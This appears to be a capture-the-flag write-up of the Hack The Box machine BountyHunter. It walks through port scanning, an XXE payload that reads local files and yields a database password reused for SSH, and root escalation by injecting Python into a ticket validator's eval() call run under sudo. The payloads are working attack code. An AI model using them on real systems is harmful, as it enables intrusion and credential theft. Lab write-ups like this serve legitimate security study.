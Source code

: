 ```yaml
---
title: BountyHunter @hackthebox
date: 2021-07-28 09:16:50
tags:
---
```


![alt](bh.png)
NMAP scan :

```Code
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

scanning the ports on the machine we find port 80 running apache and 22 for ssh.

<!-- more -->

DIR ENUM:
looking for files and directories whit gobuster :

```Code
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   -u http://10.10.11.100/ -x php

/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```

k , checking the http on 80 leads us to some report system page ![alt](images/1.png)
capture the request in Burp we can get this:

```Code
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 227
Origin: http://10.10.11.100
Connection: close
Referer: http://10.10.11.100/log_submit.php

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5kamRqZDwvdGl0bGU%2BCgkJPGN3ZT5kc2FkPC9jd2U%2BCgkJPGN2c3M%2BZGFzZDwvY3Zzcz4KCQk8cmV3YXJkPmRzYWRhPC9yZXdhcmQ%2BCgkJPC9idWdyZXBvcnQ%2B
```

ok so lets try to check whats going on on data var:

```Code
┌──(root💀Vaip3R)-[~/Desktop/burp]
└─# echo 'PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5kamRqZDwvdGl0bGU%2BCgkJPGN3ZT5kc2FkPC9jd2U%2BCgkJPGN2c3M%2BZGFzZDwvY3Zzcz4KCQk8cmV3YXJkPmRzYWRhPC9yZXdhcmQ%2BCgkJPC9idWdyZXBvcnQ%2B' | base64 -d
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>djdjd</titlebase64: invalid input

```

mmm, dear xml ... lets try some XXE
(https://ismailtasdelen.medium.com/xml-external-entity-xxe-injection-payload-list-937d33e5e116)

after some try's i manged to LFI with this payload :

```Code
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>aaa</title>
		<cwe>aaa</cwe>
		<cvss>&ent;</cvss>
		<reward>1</reward>
		</bugreport>

	*need to be based64 and url_encode(key chars)
```

after LFI the /etc/passwd i found only one bash user :

```Code
development:x:1000:1000:Development:/home/development:/bin/bash
```

![alt](images/2.png)
lets check whats on db.php we found in dir enum.

decoding back the file :

```Code
└─# echo 'PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=' | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

we got Credz! :
lets try the 22 ssh port now :

```Code
ssh development@10.10.11.100                             127 ⨯
development@10.10.11.100's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
Last login: Wed Jul 28 07:03:18 2021 from 10.10.14.40
development@bountyhunter:~$

```

WE GOT USER!

```
development@bountyhunter:~$ cat user.txt
c7af95b55d6###############
```

and a HINT:

```bash
development@bountyhunter:/opt/skytrain_inc$ cat ~/contract.txt
```

Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John

the hint tell us there is some kind of program that checks tickets.

PRIVESC:

```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

running sudo -l we can see that we can run this python script as root (/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py)... so let's checkout this file and how we can manipulte it.

```py
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

we can see it opens .md file , so lets check whats going on in the script folder:

```bash
development@bountyhunter:~$ cd /opt/skytrain_inc/
development@bountyhunter:/opt/skytrain_inc$ ls
invalid_tickets  ticketValidator.py
development@bountyhunter:/opt/skytrain_inc$ ls invalid_tickets/
390681613.md  529582686.md  600939065.md  734485704.md
development@bountyhunter:/opt/skytrain_inc$ cat invalid_tickets/390681613.md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

ok , from the code we can see it's cheking fot the # strings and do some checks and then :
validationNumber = eval(x.replace("\*\*", ""))

EVAL IS EIVL:
(line 35)so all we need to do is - in the ticket code we need the first number to be % 7 = 4 and the after the + we can put our evil payload

```bash
development@bountyhunter:/opt/skytrain_inc$ cat /tmp/exp.md
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**25+__import__('os').system("cp /root/root.txt /tmp/bashfuck")+86**
##Issued: 2021/04/06
#End Ticket
development@bountyhunter:/opt/skytrain_inc$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/exp.md
Destination: New Haven
Valid ticket.
development@bountyhunter:/opt/skytrain_inc$ cat /tmp/bashfuck
a6ed32618##################
development@bountyhunter:/opt/skytrain_inc$
```

we can run every cmd we like as root (line 5 on payload md file)
ROOT!.
